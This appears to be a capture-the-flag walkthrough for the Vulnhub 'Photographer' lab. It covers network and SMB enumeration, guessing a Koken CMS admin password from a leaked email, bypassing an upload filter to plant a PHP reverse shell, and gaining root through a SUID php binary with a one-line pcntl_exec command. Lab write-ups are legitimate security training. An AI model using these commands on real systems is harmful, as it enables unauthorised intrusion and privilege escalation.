





# Information

- Name: Photographer
- Date release: 21 Jul 2020
- Author: v1n1v131r4
- Series: Photographer
- Platform: Vulnhub
- Link: https://www.vulnhub.com/entry/photographer-1,519/
- Difficulty: Easy

# Write Up
## Enumeration
### Host Discovery
Host Discovery is performed using [arpScan](https://github.com/aalmeidar/Tools). In this lab, the machine ip is _10.0.2.27_.
```Shell
# arpScan.py -r 10.0.2.0/24 -m 2
[*] 52:54:00:12:35:00 10.0.2.1
[*] 52:54:00:12:35:00 10.0.2.2
[*] 08:00:27:08:df:3a 10.0.2.3
[*] 08:00:27:83:32:fa 10.0.2.27
```

### Port Scanning
Port Scanning is realized with [portScan](https://github.com/aalmeidar/Tools). There are four open ports.
```Shell
# portScanner.py -i 10.0.2.27
[▄] Scanning Ports: 65535
[*] Port 80 (http) open
[*] Port 139 (netbios-ssn) open
[*] Port 445 (microsoft-ds) open
[*] Port 8000 (unknown) open
```
Looks like web and smb, but let's check it.

### Banner Grabbing
- Port 80:
```Console
nc -vn 10.0.2.27 80
(UNKNOWN) [10.0.2.27] 80 (http) open
test
HTTP/1.1 400 Bad Request
Date: Thu, 08 Sep 2022 16:19:44 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 301
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.18 (Ubuntu) Server at 127.0.1.1 Port 80</address>
</body></html>
```
It's an Apache 2.4.18 running.

- Port 8000:
```Console
nc -vn 10.0.2.27 8000
(UNKNOWN) [10.0.2.27] 8000 (?) open
test
HTTP/1.1 400 Bad Request
Date: Thu, 08 Sep 2022 16:22:15 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 303
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.18 (Ubuntu) Server at example.com Port 80</address>
</body></html>

```
Also is an Apache 2.4.18

### SMB
Let's enumerate users and shares folder with nmap scripts.
```Console
# nmap --script "smb-enum-shares","smb-enum-users" 10.0.2.27
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-08 18:24 CEST
Nmap scan report for 10.0.2.27 (10.0.2.27)
Host is up (0.00012s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8000/tcp open  http-alt
MAC Address: 08:00:27:83:32:FA (Oracle VirtualBox virtual NIC)

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\10.0.2.27\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (photographer server (Samba, Ubuntu))
|     Users: 2
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.0.2.27\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.0.2.27\sambashare: 
|     Type: STYPE_DISKTREE
|     Comment: Samba on Ubuntu
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\agi\share
|     Anonymous access: READ/WRITE
|_    Current user access: READ/WRITE

```
So, _sambashare_ is a folder shared by agi with anonymous login to read/write. Let's download all the files.

```Content
# smbclient //10.0.2.27/sambashare
Password for [WORKGROUP\aalmeidar]:
Try "help" to get a list of possible commands.
smb: \> mask ""
smb: \> recurse
smb: \> prompt
smb: \> mget *
getting file \mailsent.txt of size 503 as mailsent.txt (49.1 KiloBytes/sec) (average 49.1 KiloBytes/sec)
getting file \wordpress.bkp.zip of size 13930308 as wordpress.bkp.zip (70122.7 KiloBytes/sec) (average 66687.8 KiloBytes/sec)
smb: \> quit
➜  ls
 mailsent.txt   wordpress.bkp.zip
➜  test cat mailsent.txt 
Message-ID: <4129F3CA.2020509@dc.edu>
Date: Mon, 20 Jul 2020 11:40:36 -0400
From: Agi Clarence <agi@photographer.com>
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.0.1) Gecko/20020823 Netscape/7.0
X-Accept-Language: en-us, en
MIME-Version: 1.0
To: Daisa Ahomi <daisa@photographer.com>
Subject: To Do - Daisa Website's
Content-Type: text/plain; charset=us-ascii; format=flowed
Content-Transfer-Encoding: 7bit

Hi Daisa!
Your site is ready now.
Don't forget your secret, my babygirl ;)
```
We have 2 usernames: Daisa and Agi. The last line looks weird maybe its a password. The other file is not relevant.

### Web
The web running on port 80 is not interesting. Is a simple web site with a template. 

But web running on port 8000 is using Koken CMS that is vulnerable to [Arbitrary File Upload](https://www.exploit-db.com/exploits/48706).


First and foremost, let's apply fuzzing to discover hidden directories and files.
_Gobuster_ report me:
```Console
/admin                (Status: 301) [Size: 313] [--> http://10.0.2.26:8000/admin/]
/storage              (Status: 301) [Size: 315] [--> http://10.0.2.26:8000/storage/]
/app                  (Status: 301) [Size: 311] [--> http://10.0.2.26:8000/app/]
/server-status        (Status: 403) [Size: 276]
```
In _/admin_ there is a login panel.


Maybe previous credentials found in smb work. So, let's try daisa@photographer.com:babygirl. And its successful.


## Exploitation
Let's upload a revershell as shell.php.jpg and with burpsuite rename as shell.php to bypass the filter.

Click on Download File and you will get a shell.


## Privilege Escalation
Get a full tty and check files with suid perm. 
```Console
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@photographer:/$ ^Z
[1]  + 7068 suspended  nc -lvvp 1234
➜  ~ stty raw -echo; fg
[1]  + 7068 continued  nc -lvvp 1234
                                    reset xterm
www-data@photographer:/$ export TERM=xterm
www-data@photographer:/$ find / -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/oxide-qt/chrome-sandbox
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/sbin/pppd
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/php7.2
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/chfn
/bin/ping
/bin/fusermount
/bin/mount
/bin/ping6
/bin/umount
/bin/su
```
Can escalates privileges with php:
```Console
www-data@photographer:/$ php -r "pcntl_exec('/bin/bash', ['-p']);"
bash-4.3# cat /home/daisa/user.txt 
d41d8cd98f00b204e9800998ecf8427e
bash-4.3# whoami
root
bash-4.3# cat /root/proof.txt 
                                                                   
                                .:/://::::///:-`                                
                            -/++:+`:--:o:  oo.-/+/:`                            
                         -++-.`o++s-y:/s: `sh:hy`:-/+:`                         
                       :o:``oyo/o`. `      ```/-so:+--+/`                       
                     -o:-`yh//.                 `./ys/-.o/                      
                    ++.-ys/:/y-                  /s-:/+/:/o`                    
                   o/ :yo-:hNN                   .MNs./+o--s`                   
                  ++ soh-/mMMN--.`            `.-/MMMd-o:+ -s                   
                 .y  /++:NMMMy-.``            ``-:hMMMmoss: +/                  
                 s-     hMMMN` shyo+:.    -/+syd+ :MMMMo     h                  
                 h     `MMMMMy./MMMMMd:  +mMMMMN--dMMMMd     s.                 
                 y     `MMMMMMd`/hdh+..+/.-ohdy--mMMMMMm     +-                 
                 h      dMMMMd:````  `mmNh   ```./NMMMMs     o.                 
                 y.     /MMMMNmmmmd/ `s-:o  sdmmmmMMMMN.     h`                 
                 :o      sMMMMMMMMs.        -hMMMMMMMM/     :o                  
                  s:     `sMMMMMMMo - . `. . hMMMMMMN+     `y`                  
                  `s-      +mMMMMMNhd+h/+h+dhMMMMMMd:     `s-                   
                   `s:    --.sNMMMMMMMMMMMMMMMMMMmo/.    -s.                    
                     /o.`ohd:`.odNMMMMMMMMMMMMNh+.:os/ `/o`                     
                      .++-`+y+/:`/ssdmmNNmNds+-/o-hh:-/o-                       
                        ./+:`:yh:dso/.+-++++ss+h++.:++-                         
                           -/+/-:-/y+/d:yh-o:+--/+/:`                           
                              `-///////////////:`                               
                                                                                

Follow me at: http://v1n1v131r4.com


d41d8cd98f00b204e9800998ecf8427e

```

